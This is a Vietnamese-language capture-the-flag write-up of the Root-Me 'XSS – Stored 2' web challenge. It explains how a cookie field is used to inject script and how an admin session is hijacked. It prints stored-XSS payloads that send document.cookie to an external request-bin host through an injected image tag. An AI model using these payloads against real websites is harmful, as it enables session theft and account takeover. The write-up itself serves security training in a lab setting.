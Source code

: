 # [XSS – Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

Thử fuzz các payload ở tab Admin và Post nhưng không có gì xảy ra. Kiểm tra và test thử thì thấy điều đặc biệt là **Status: invite** ở mỗi post.

![](./media/image1.png)

Check cookie của website thì thấy nó được handle dựa trên cookie này:

![](./media/image2.png)

Bỏ vào repeater và check thử thì thấy nó work:

![](./media/image3.png)

Ở đây, class **“nh4ttruong”** sẽ là điểm đích ta tấn công. Thử nhét payload XSS vào thử:

**Payload:** `hehe"><script>alert(1)</script>`

![](./media/image4.png)

![](./media/image5.png)

Từ đó, ta đã có chỗ để tiêm XSS vào rồi. Tương tự các bài stored, ta tạo request bin và bơm vào:

**Payload:** `"><script>document.write("<img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie).concat(%22/>%22))</script>`

Cookie trả về có vẻ vẫn chưa nhận được. Nhưng referer trả về ?admin=1&idx=0. Nói lên rằng nó đã đi đúng hướng và admin đã đọc được:

![](./media/image6.png)

Mở intercept kiểm tra source với payload tương tự thì phát hiện cookie=status=invite;” kết thúc bằng “ ”, do đó, rất có thể nó không link được đến cookie của admin

![](./media/image7.png)

Để giải quyết điều này, ta thử sử dụng hàm **REPLACE** để xóa bỏ **“ ”** và chèn vào ký tự **“&”** để link các cookie với nhau:

**Payload:** *"><script>document.write("<img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie.replace(%27 %27,%27&%27 ).concat(%22/>%22))</script>*

![](./media/image8.png)

Có **ADMIN\_COOKIE**, ta thay đổi vào cookie và get pass:

![](./media/image9.png)

![](./media/image10.png)

- Flag: "****************************"
